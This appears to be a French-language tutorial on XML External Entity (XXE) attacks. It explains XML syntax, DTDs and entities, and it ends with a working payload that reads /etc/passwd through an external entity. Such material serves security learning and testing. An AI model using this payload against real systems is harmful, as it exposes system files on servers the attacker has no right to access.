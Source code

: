 # XML External Entity (XXE)

## Les types d'attaques

LES XXE attaques sont des vulnérabilités qui abusent des parsers XML et cela permet d'interagir avec le systeme backend ou externe de l'application.

Il y a 2 types de XXE attaques :

* In-band (IB-XXE) : c'est le cas quand on a une réponse immédiate du XXE payload
* Out of band (OOB-XXE): il n'y a pas de réponse immédiate du serveur et c'est redirigé vers un autre fichier/serveur. (Blind XXE attack)

## XML présentation

C'est un langage markup (eXtensible Markup Language) qui définit plusieurs regles pour encoder les documents dans un format lisible pour les homme comme pour les machines. cela permet donc de stocker & transporter des données

### Pourquoi utiliser le XML

1. C'est plateforme independant et langage dep rogrammation independant. C'est donc utilisable n'importe ou.
2. La valeur des données peut etre changer à n'importe quel moment sans changer la présentation des données
3. XML supporte la validation avec les schémas et Document Type Definition (DTD) pour limiter les erreurs
4. Le fait qu'il soit independant facilite son échange et son partage

### Syntax

[source,xml]
----
<?xml version="1.0" encoding="UTF-8"?>
----

C'est le XML prolog qui donne la version du XML et l'encoding utilisé dans le document. C'est pas obligatoire mais fortement conseillé.

Comme pour le JSON, il y a un élément root qui est obligatoire pour rendre le document valide

[source,xml]
----
<?xml version="1.0" encoding="UTF-8"?>
<mail>
   <to>falcon</to>
   <from>feast</from>
   <subject>About XXE</subject>
   <text>Teach about XXE</text>
</mail>
----

Dans l'exemple, le mail est l'élément root avec les parametres to/from/subject/text. Ces parametres sont ouverts et fermés en balise avec leur nom <to> </to>. Il est important de prendre en compte que le XML est case senstive. Les parametres peuvent prendre des attributs comme en HTML :

[source,xml]
----
<text category = "message">You need to learn about XXE</text>
----

Ces parametres sont appelés des éléments.

## Document Type Definition (DTD)

Le DTD définit la structure et les éléments légaux ainsi que leur attributs d'un document XML. C'est un fichier supplémentare (ex: note.dtd) : 

[source,dtd]
----
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
----

Elements: 

* !DOCTYPE détermine que l'élément root doit être nommé "note"
* !ELEMENT note doit contenir les éléments (to, from, heading, body)
* <!ELEMENT to définit que l'élement to doit etre de type #PCData (Parsed Caracter Dat qui bloque certains caracteres, opposé à CDATA - character data- qui est unparse et le permet). Par défaut, tout est en PCDATA
* tous les autres éléments sont aussi en PCDATA d'apres ce DTD


Ce fichier nous permet de valider les informations d'un document XML comme celui la :

[source,xml]
----
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
----

## XXE Payload

Un payload est l'envoie d'un fichier XML (non confirmé)

[source,xml]
----
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
----

Cela permet de mettre une valeur feast dans name mais on peut aussi lire les mots de passe comme ceci dans un systeme UNIX

[source,xml]
----
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
----
